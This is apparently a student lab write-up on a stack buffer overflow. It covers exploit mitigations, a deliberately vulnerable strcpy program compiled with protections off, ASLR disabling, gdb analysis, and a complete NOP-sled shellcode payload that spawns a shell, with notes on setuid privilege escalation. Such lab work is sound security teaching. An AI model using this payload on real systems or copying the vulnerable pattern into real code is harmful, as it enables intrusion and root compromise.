





# Lab 5 - Buffer Overflow

## Theoretical questions

1. **What binary exploitation mitigation techniques do you know?**
   - **Data Execution Prevention (DEP) / Executable Space Protection**
     - Marking the user-writable areas in memory as non-executable so that an attacker can not have access to a memory region that is both writable and executable and use it to execute arbitrary code.
       - This can be implemented using hardware features such as no-execute (NX) bit.
       - Attempts to execute code in the protected area would cause an exception.
   - **Address Space Layout Randomization (ASLR)**
     - A technique used by the operating systems to lower the chances of buffer-overflow attacks, by loading system executables into random locations in memory, making it harder for the attacker to guess the location of sensitive data and feed a certain input to the program that exposes such data.
   - **Stack Canaries**
     - At the beginning of the function, a random value is placed on the stack. Before the program executes `ret`, the current value of that variable is compared to the initial: if they are the same, no buffer overflow has occurred.
     - If they are different, "stack smashing" is detected and the program terminates, preventing an attacker from exploiting the binary further.
2. **Did NX solve all binary attacks? Why?**
   - No, an attacker can still exploit a binary by manipulating a JIT compiler into generating exploit code that won't be marked as non-executable (e.g., JIT Spray attacks).
   - Attacker may also utilize Return-Oriented Programming (ROP) to gain control of the call stack to hijack the control flow and execute code that is already present in memory, but in an unintended order (e.g., return-to-libc attack)
3. **Why do stack canaries end with 00?**
   - Strings (character arrays) in C has to end with the null-terminator `'\0'`
   - This is useful (for example) when passing a `char*` to a `printf` call, the program knows when to stop processing the string.
   - Having stack canaries end with 00 will null-terminate any string in case the programmer used `printf(str);` instead of `printf("%s", str);` for example, it also makes them easier to spot.
4. **What is NOP sled?**
   - A sequence of NOP (no-operation) instructions that basically tell the CPU to do nothing and go further.
   - This is commonly used when exploiting buffer overflows: a sequence of NOPs before a malicious payload will slide the execution into the targeted area so the overwritten return address doesn't have to be precise and there would be a higher chance of success.


## Practical task

### **Vulnerable C code (`source.c`)**

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[]){
    char buf[128];
    strcpy(buf, argv[1]);
    printf("%s\n", buf);
    return 0;
}
```


### **Compile (32-bit kali 2022.1 VM)**

```bash
gcc -o binary -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 source.c
```

- `-fno-stack-protector`: compile without stack protector to make exploitation possible.
  - Stack protector is the `gcc` implementation of stack canary (explained above).
  - It's actually off by default in the standard `gcc`, this is just done as a precaution in case a modified version of `gcc` where stack protector is enabled by default is being used. 
- `-z execstack` tells the linker to allow the execution of code present on the stack.
  - Without this, execution of injected payload won't be allowed.
- `-mpreferred-stack-boundary=2` will make `gcc` align stack pointer on 4-byte boundary. This will reduce stack requirements of routines.
  - This will produce simpler assembly instructions for testing the exploit.

- **Compiling on 64 bit systems**

  - `-m32` flag can be used on 64-bit systems to tell `gcc` to compile binary in 32-bit mode.

    - The assembly code of the program will be using 32-bit memory addresses, `esp` register instead of `rsp`, etc.

    - We need to install `gcc-multilib` dependencies for cross-compiling to use this flag.

      

### **Enable/disable some features**

- Disable ASLR to make binary exploitation possible

  ```bash
  sudo sysctl -w kernel.randomize_va_space=0
  cat /proc/sys/kernel/randomize_va_space
  # verify "0"
  ```

- Enable core dumps after segmentation faults

  ```bash
  ulimit -c unlimited 
  ulimit -c
  # verify "unlimited"
  ```

- Exploit should be run in a clear environment, as environment variables and other things are pushed first on the stack, shifting the addresses and thus requiring different payloads. [[Check](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it)]


### **Debug the binary** using gdb

- If `-g` was passed while compiling, debugging symbols would have been included and we can use `list` to see the source code and get additional debugging features, if not, we will have to disassemble.

```bash
$ gdb -q ./binary
Reading symbols from binary...
(No debugging symbols found in binary)
(gdb) run hello
Starting program: /home/ahmed/buffer_overflow/binary hello
hello
[Inferior 1 (process 17710) exited normally]
```


### **Disassemble** (only interesting parts are shown)

```assembly
(gdb) disas main
...
   0x565561b7 <+10>:    push   %ebp
   0x565561b8 <+11>:    mov    %esp,%ebp
   0x565561ba <+13>:    push   %ebx
   0x565561bb <+14>:    push   %ecx
   0x565561bc <+15>:    add    $0xffffff80,%esp
...
   0x565561df <+50>:    call   0x56556030 <strcpy@plt>
   0x565561e4 <+55>:    add    $0x10,%esp
   0x565561e7 <+58>:    sub    $0xc,%esp
   0x565561ea <+61>:    lea    -0x88(%ebp),%eax
   0x565561f0 <+67>:    push   %eax

```

- This command is essentially subtracting `0x80 (hex) = 128 (decimal)` from the stack pointer `%esp` to reserve space for the buffer.

  ```assembly
  0x565561bc <+15>:    add    $0xffffff80,%esp
  ```

- This is where the `strcpy` is called

  ```assembly
  0x565561df <+50>:    call   0x56556030 <strcpy@plt>
  ```

- We can set a breakpoint after an instruction is executed, we can then run our program normally and it will stop at each breakpoint, allowing us to examine memory to craft the payload:

  ```bash
  # sets a breakpoint after calling strcpy
  (gdb) break *main+55
  
  # run the program 
  (gdb) run $(python2 -c 'print "\x41" * 127 ')
  
  # shows stack frame information
  (gdb) info frame         
  
  # shows currently stored values in registers
  (gdb) info registers
  
  # examine contents of the stack
  # shows 200 addresses starting from address at $esp - 200
  (gdb) x/200x ($esp - 200)
  ```


### Fuzzing

- Let's perform fuzz testing on the binary, incrementing payload each time until we get a segmentation fault:


- Checking the registers and stack we can see the range of addresses that were overwritten on the stack and that `ebp` was overwritten with `\x41`








- Trying with larger payload (at length >= 140) happen to fully overwrite the return address. 




### Exploitation

- We want to inject a payload on the format:

  ```
  [NOP]...[NOP][EXPLOIT][RET_ADDR]..[RET_ADDR]
  ```

- Where:

  - `EXPLOIT` is a little-endian exploit payload that runs a shell (e.g., `/bin/sh`)
  - `NOP = '\x90'`, there should be `buffer_length - exploit_length = 128 - 46 = 82` of them.
  - `RET_ADDR` is little-endian address that points somewhere in the middle of the `NOP`s, we can put a number of such address to make sure it'll work even when stuff move around.

- Payload used:

  ```assembly
  run $(python2 -c 'print "\x90" * 82 + "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" + "\x08\xf0\xff\xbf" * 20')
  ```

- Moment of truth:


### Comments

- Congrats, we got a shell with user `kali` which we have already been using!

- But, the vulnerability can become a real issue:
  
  - **Remote code execution:** if the binary is hosted somewhere and we managed to get a copy for testing.
  
  - **Privilege escalation:** If the binary being exploited has the `setuid` bit, then the shell will be a root shell.
  
    - For testing, run `sudo chmod u+s binary ` to give the binary the setuid bit.
  
    - Craft the payload in `gdb` which is run in a clean environment.
  
    - In the same environment, run the binary as an unprivileged user, the exploit will give a root shell (escalation).
  
      
  
    
  

